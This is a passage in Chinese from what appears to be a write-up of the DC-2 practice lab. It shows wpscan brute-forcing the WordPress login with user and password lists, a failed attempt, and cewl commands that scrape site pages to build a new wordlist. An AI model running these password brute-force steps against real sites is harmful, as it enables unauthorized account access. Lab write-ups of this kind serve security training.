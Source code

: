 



### 利用wpscan爆破后台

```
wpscan --url http://dc-2 -U user.txt -P dic
```

![image-20250309135505328](./assets/image-20250309135505328.png)

爆破失败

![image-20250309135517318](./assets/image-20250309135517318.png)

怀疑是字典问题

后来发现没有将所有文字提取



### 重新利用cewl生成字典

```
 cewl http://dc-2/index.php/what-we-do/>> dic
 cewl http://dc-2/index.php/our-people/>> dic
 cewl http://dc-2/index.php/our-products/>>dic
```

![image-20250309135704733](./assets/image-20250309135704733.png)
